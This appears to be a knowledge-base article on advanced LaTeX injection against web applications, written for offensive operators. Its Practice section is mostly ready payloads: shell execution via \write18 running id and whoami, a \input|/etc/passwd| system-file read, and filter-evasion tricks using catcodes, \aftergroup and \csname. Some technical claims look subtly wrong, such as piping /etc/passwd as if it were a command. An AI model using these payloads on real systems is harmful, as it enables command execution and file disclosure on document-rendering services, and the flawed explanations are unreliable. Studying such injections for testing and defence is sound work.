 ```yaml
---
title: Advanced LaTeX Injection Techniques
description: Explore advanced LaTeX injection techniques, focusing on macro manipulation,
  token expansion, and execution flow for cybersecurity.
keywords:
- LaTeX injection
- macro manipulation
- token expansion
- execution flow
- catcode manipulation
- dynamic command creation
- cybersecurity exploits
- web application security
- advanced injection techniques
---
```


# Advanced Techniques

## Context

This article explores advanced methods for exploiting LaTeX injection vulnerabilities in web applications. It targets offensive operators who understand LaTeX syntax, web application structures, and basic LaTeX injection techniques. The objective is to harness LaTeX's capabilities to redefine macros, manipulate tokens, and exploit execution flow for broader impacts in a compromised system.

## Theory

### Macro Manipulation and Redefinition

The LaTeX commands `\let` and `\def` are instrumental in redefining existing or introducing new commands during document processing. By exploiting these, an attacker can alter document logic, circumventing security controls or chaining payloads to introduce harmful behavior. Typically, an attacker will inject `\let` or `\def` to repurpose safe commands with malicious intentions. For instance, redefining a standard LaTeX section command could introduce unauthorized content into generated documents.

### Catcode and Token Expansion Abuse

Catcodes govern how LaTeX interprets each particular character, such as whether it is viewed as text, a command, or special syntax. Manipulating these catcodes within an application could open pathways to inject forbidden characters or traverse input filters designed to block unsafe input. In practice, attackers might manipulate these codes to coerce LaTeX into treating dangerous sequences as executable code, facilitating secondary payload execution.

### Advanced Token Expansion and Execution Flow

LaTeX's `\aftergroup` and `\futurelet` commands allow the deferring of token expansion and execution. This ability means that attackers can delay payload execution until conditions are more favorable, such as avoiding static analysis or triggering after initial page rendering. By employing these techniques, an injected payload might remain quiescent until it is safely past detection systems.

### Dynamic Command Creation and Disclosure

Commands like `\meaning` and `\string` in LaTeX can disclose existing command definitions and create new ones dynamically. This capability allows an attacker to uncover internal macros or sensitive application logic. Exploiting these methods might involve using `\meaning` to leak information inadvertently stored in macros, or employing `\string` to convert commands into strings that reveal internal application logic to the attacker.

## Practice

### Macro Redefinition via \let

- **Payload:**
  ```latex
  \let\oldsection\section\def\section#1{Malicious Section: #1\oldsection{#1}}
  ```
  This payload redefines the `\section` command to prepend "Malicious Section:" to each section title before the original section logic is executed. This injection affects document structure and potentially misleads or alarms end-users.

### Catcode Manipulation for Filter Bypass

- **Payload:**
  ```latex
  \catcode`\@=11 \def\evil@cmd{\input|/etc/passwd|}
  ```
  Here, we alter the category code of `@` to make it a letter, allowing for the unobstructed creation of new macros such as `\evil@cmd`, which here attempts to inject a path leading to `/etc/passwd`. This technique bypasses certain input validation strategies.

### Token Expansion Delay with \aftergroup

- **Payload:**
  ```latex
  \def\evil{\immediate\write18{id}}\aftergroup\evil
  ```
  The execution of the `\evil` command, designed to run an immediate shell command, is delayed using `\aftergroup`. This delay subverts standard filters and deferred validation methods by activating the payload after intended checks.

### Dynamic Macro Disclosure with \meaning

- **Payload:**
  ```latex
  \immediate\write18{echo \meaning\section > /tmp/section.txt}
  ```
  Extracting and saving the definition of a macro like `\section` facilitates offline analysis, further examination, and adaptation of attacks based on disclosed logic.

### Dynamic Command Creation with \csname

- **Payload:**
  ```latex
  \expandafter\def\csname evilcmd\endcsname{\immediate\write18{whoami}}\evilcmd
  ```
  This process dynamically constructs a macro named `evilcmd` that immediately executes the command `whoami`, illustrating command execution capability through dynamically named constructs.

## Tools

- **TeXLive**
- **pdflatex**
- **lualatex**

These tools facilitate the creation, manipulation, and execution of LaTeX documents, providing a versatile environment for attackers to test and deploy their exploitation strategies.